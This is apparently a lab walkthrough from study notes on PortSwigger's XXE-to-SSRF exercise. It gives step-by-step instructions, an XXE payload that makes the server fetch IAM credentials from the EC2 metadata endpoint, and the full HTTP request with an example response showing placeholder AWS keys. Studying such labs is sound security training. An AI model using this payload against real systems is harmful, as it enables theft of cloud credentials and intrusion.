

## Step-by-Step Exploitation

Let's walk through the steps to exploit the XXE injection vulnerability and perform an SSRF attack.

### Step 1: Identify the Vulnerable Input Field

First, identify the input field where the application accepts XML input. In this case, it's the "check stock" feature.

### Step 2: Craft the XXE Payload

We need to craft an XML payload that exploits the XXE vulnerability. The payload should include an external entity that references the EC2 metadata endpoint.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/" >
]>
<foo>&xxe;</foo>
```

This payload defines an external entity `xxe` that points to the EC2 metadata endpoint. When the server parses this XML, it will attempt to fetch the data from the metadata endpoint.

### Step 3: Submit the Payload

Submit the crafted XML payload to the "check stock" feature. The server will parse the XML and make an HTTP request to the metadata endpoint.

### Step 4: Retrieve the IAM Secret Access Key

If the server successfully retrieves the data from the metadata endpoint, it will return the IAM secret access key in the response.

### Full HTTP Request and Response

Here is the complete HTTP request and response:

#### HTTP Request

```http
POST /check-stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 214

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/" >
]>
<foo>&xxe;</foo>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 1024

{
  "Code": "Success",
  "LastUpdated": "2023-10-01T12:00:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "AQoDYXdzEJr...",
  "Expiration": "2023-10-01T13:00:00Z"
}
```

### Diagram of the Attack Chain



---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/03-Lab 2 Exploiting XXE to perform SSRF attacks/06-Real-World Examples and Recent Breaches|Real-World Examples and Recent Breaches]] | [[Web Security (PortSwigger)/08-XXE Injection/03-Lab 2 Exploiting XXE to perform SSRF attacks/00-Overview|Overview]] | [[08-Understanding XXE Injection and Its Impact|Understanding XXE Injection and Its Impact]]
